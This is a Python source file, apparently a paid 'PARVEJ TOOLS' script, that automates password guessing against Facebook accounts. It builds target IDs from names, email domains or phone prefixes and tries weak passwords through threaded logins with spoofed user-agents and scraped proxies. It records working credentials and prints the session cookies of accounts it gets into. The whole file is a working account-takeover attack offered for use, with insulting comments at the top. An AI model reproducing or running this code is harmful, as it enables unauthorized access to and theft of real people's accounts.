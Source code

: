 #SC MAKED BY PARVEJ
#Fuck PARVEJ HOSSEN
#Dec By PARVEJ
#PARVEJ Your Reyal Pappa
#PARVEJ Kids Numbar 5

import os,sys,time,json,random,re,string,platform,base64,uuid
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from os import system as s
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today() 
loop = 0
oks = []
cps = []
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
 prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
 open('.prox.txt','w').write(prox)
except Exception as e:
 print('')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
logo = ("""

 ##  ##     ##     ##         ##     ##   ## 
 ## ##     ####    ##        ####    ### ### 
 ####     ##  ##   ##       ##  ##   ####### 
 ###      ######   ##       ######   ## # ## 
 ####     ##  ##   ##       ##  ##   ##   ## 
 ## ##    ##  ##   ##       ##  ##   ##   ## 
 ##  ##   ##  ##   ######   ##  ##   ##   ## 
                                             

                                                 
\033[1;91m\033[1;41m\033[1;97m              WELCOME TO PARVEJ TOOLS               \033[;0m\033[1;91m\033[1;92m

\033[1;92m══════════════════════════════════════════
\033[1;32m[-] TOOLS TYPE:\033[1;32m PAID
\033[1;32m[-] AUTHOR    :\033[1;32m PARVEJ HOSSEN
\033[1;32m[-] GITHUB    :\033[1;32m ROMAN-XXX
\033[1;32m[-] FACEBOOK  :\033[1;32m FH Roman
\033[1;92m══════════════════════════════════════════

\033[1;91m<═══\033[1;41m\033[1;97m THIS NAME IS PARVEJ BRAND\033[;0m\033[1;91m═══>\033[1;92m""")


class Main:
    def __init__(self):
        self.id = []
        self.ok = []
        self.cp = []
        self.loop = 0
        os.system("clear")
        print(logo)
        print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        print(" \033[1;97m[1] FACEBOOK EMAIL ID CLONING     \033[1;91m[WORKING] ")
        print(" \033[1;97m[2] FACEBOOK USERNAME CLONING     \033[1;35m[BEST]")
        print(" \033[1;97m[3] FACEBOOK VIP RANDOM CLONING   \033[1;33m[FIRE]")
        print(" \033[1;97m[0] Exit")
        print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        Snigdho =input(" [√] Choose : ")
        if Snigdho in ["1", "01"]:
            v1()
        if Snigdho in ["2", "02"]:
            v2()
        if Snigdho in ["3","03"]:
            v3()
        if Snigdho in [" 0", "00"]:
            exit()
        else:
            exit()
def v1():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET LAST NAME :  ')
    print(' [🤝] example Doamin : @gmail.com, @yahoo.com ')
    doamin = input(' [📧]  Input Doamin  : ')
    limit = int(input('[?] ENTET YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m [🔥]  Target Doamin:\033[1;92m {doamin}")
        print(' \033[1;97m[🔥]  The process has been started')
        print(' [🔥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+guru+doamin
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v2():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET FIRST NAME :  ')
    doamin = '.'
    limit = int(input('[?] ENTER YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m [♥]  Target Doamin:\033[1;92m Facebook CLONING (name)")
        print(' \033[1;97m[♥]  The process has been started')
        print(' [♥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+doamin+kodex+guru
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v3():
    user=[]
    os.system('clear')
    print(logo)
    print(" BD SIM CODE=><>< +88017,+88018,+88019,+88014,+88013")
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" \033[1;32mPAK SIM CODE=><>< +92301,+92302,+92303,+92305")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" NOTE ; THOSE  WHO STAY IN THEIR COUNTRY THEY CAN GIVE THEIR SIM CODE NUNBER TO FACEBOOK RANDOM ID CLONE")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    
    kode = input(' [📞] ENTER SIM CODE: ')
    kodex = ''.join(random.choice(string.digits) for _ in range(2))
    kod = ''.join(random.choice(string.digits) for _ in range(2))
    doamin = ' FACEBOOK VIP CLONING (BD NUMBER) '
    limit = int(input('[?] ENTER YOUR CRACK LIMiT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' \033[1;33m[♥]  TOTAL IDS :\033[1;92m '+tl)
        print(f"\033[1;33m[♥]  YOUR TERGET CRACK MENU:\033[1;92m {doamin}")
        print(' \033[1;33m[♥]  THE CRACK PROCESS HAS BEEN STARTED')
        print(' \033[1;33m[♥]  WAIT FOR IDS ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+kod+guru
            pwx = [kode+kodex+kod+guru,kod+guru,kodex+guru,kode+kodex+kod,'bangladesh']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def rcrack1(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            sys.stdout.write('\r[\033[1;92mPARVEJ\033[1;97m] [%s/%s] [\033[1;92mOK\033[1;97m:-\033[1;92m%s\033[1;97m] [\033[1;91mCP\033[1;97m:-\033[1;91m%s\033[1;97m] \r'%(loop,tl,len(oks),len(cps))),
            sys.stdout.flush()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {
    'authority': 'm.facebook.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'cache-control': 'no-cache',
    # 'cookie': 'datr=E74nZPAr1N4lHnO5Z23vj8-3; sb=E74nZEslp3CcUIIi8Pt81iCR; m_pixel_ratio=1.75; wd=412x805; fr=0qe97yfeoNUBkUDS1..BkJ74b.MC.AAA.0.0.BkJ75G.AWV8YvT3ZUw',
    'pragma': 'no-cache',
    'referer': 'https://www.google.com/',
    'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-platform': '"Android"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'cross-site',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Mobile; rv:48.0; A405DL) Gecko/48.0 Firefox/48.0 KAIOS/2.5',
}
            lo = session.post('https://m.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f"\033[38;5;46m[PARVEJ-OK🌻] {uid}|{ps}")
                print(f"\n[COOKIE🎁] : {coki}")
                open('/sdcard/PARVEJ/ok.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[82:97]
                print(f"\x1b[38;5;196m[PARVEJ-CP❌] {uid}|{ps}")
                open('/sdcard/PARVEJ-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\033[m[PARVEJ-KING💥] \033[1;92m%s\033[m |\033[m[\033[mOK:\033[1;92m%s\033[m] '%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass
Main()
